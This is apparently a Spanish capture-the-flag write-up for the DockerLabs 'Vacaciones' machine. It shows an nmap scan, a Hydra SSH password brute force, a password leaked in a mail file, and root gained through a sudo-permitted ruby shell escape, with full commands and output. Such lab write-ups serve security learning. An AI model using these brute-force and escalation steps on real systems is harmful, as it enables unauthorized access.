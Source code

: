#Vacacciones DockerLabs - 14/05/2024

#web - https://dockerlabs.es/#/

Hacemos un escaneo de puertos con nmap:

```shell
└─$ nmap -sVC -p- -n --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 22:08 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00012s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 41:16:eb:54:64:34:d1:69:ee:dc:d9:21:9c:72:a5:c1 (RSA)
|   256 f0:c4:2b:02:50:3a:49:a7:a2:34:b8:09:61:fd:2c:6d (ECDSA)
|_  256 df:e9:46:31:9a:ef:0d:81:31:1f:77:e4:29:f5:c9:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.92 seconds

```
Accedemos a la web y vemos una pagina web en blanco:

![Captura de pantalla 2024-05-14 221852](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/3d24462b-04c5-47ac-a9dd-8fbb2ffad74a)

Nos metemos a ver el codigo y vemos dos posibles usuarios "camilo" y "juan":

![Captura de pantalla 2024-05-14 221917](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/1c1ead82-09cc-430f-8a62-ea8e21e6c9c7)

Creamos un archivo .txt con estos dos usuarios:
(Camilo es el usuario con el que hacer el ataque de fuerza bruta ponerlo el primero para que sea más rápido)

```shell
└─$ nano users.txt
```

![Captura de pantalla 2024-05-14 224207](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/c6797580-33ad-49c4-998a-0ee01d6fea2f)

Procedemos al ataque de fuerza bruta con hydra:

```shell
└─$ hydra -L /home/kali/Desktop/Machines/users.txt -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2/
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-14 22:35:54
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344400 login tries (l:1/p:14344400), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: camilo   password: password1
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-14 22:36:05
```
Accedemos via ssh:

```shell
└─$ ssh camilo@172.17.0.2
camilo@172.17.0.2's password: 
$ 
```

Probamos un sudo -l pero vemos que no funciona:

```shell
$ sudo -l
[sudo] password for camilo: 
Sorry, user camilo may not run sudo on d3c3148a6872.
```

Probamos a buscar binarios con permisos SUID pero no hay nada explotable:

```shell
camilo@d3c3148a6872:~$ find / -perm -4000 -user root 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/sudo
/bin/mount
/bin/umount
/bin/su

```

Viajamos entre directorios para ver que podemos encontrar vamos hasta "/home" y si hacemos ls vemos un direcorio llamado "var" entramos y encontramos otro llamado "mail" dentro hay otro que se llama "camilo"  y dentro encontramos un archivo "mail.txt" hacemos un cat y esto es lo que vemos:

```shell
camilo@d3c3148a6872:/var/mail/camilo$ cat correo.txt
Hola Camilo,

Me voy de vacaciones y no he terminado el trabajo que me dio el jefe. Por si acaso lo pide, aquí tienes la contraseña: 2k84dicb

```

Ahora accedemos a la maquina con el usuario "root" y la contraseña "2k84dicb":

```shell
└─$ ssh root@172.17.0.2
root@172.17.0.2's password: 
Permission denied, please try again.
```

Lo probamos y vemos que el usuario no es root, ahora lo vamos a probar con el usuario "juan":

```shell
└─$ ssh juan@172.17.0.2
juan@172.17.0.2's password: 
$ 

```

Esta vez si funciona.
Ejecutamos un "sudo -l" para ver si podemos escarlar privilegios desde aqui:

```shell
$ sudo -l
Matching Defaults entries for juan on d3c3148a6872:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User juan may run the following commands on d3c3148a6872:
    (ALL) NOPASSWD: /usr/bin/ruby

```

Vemos que se puede ejecutar el binario "/usr/bin/ruby" sin contraseña:
Entramos a "https://gtfobins.github.io/gtfobins/ruby/" y pegamos el codigo en la terminal:

```shell
$ sudo ruby -e 'exec "/bin/sh"'

```

```shell
# whoami
root
# 
```
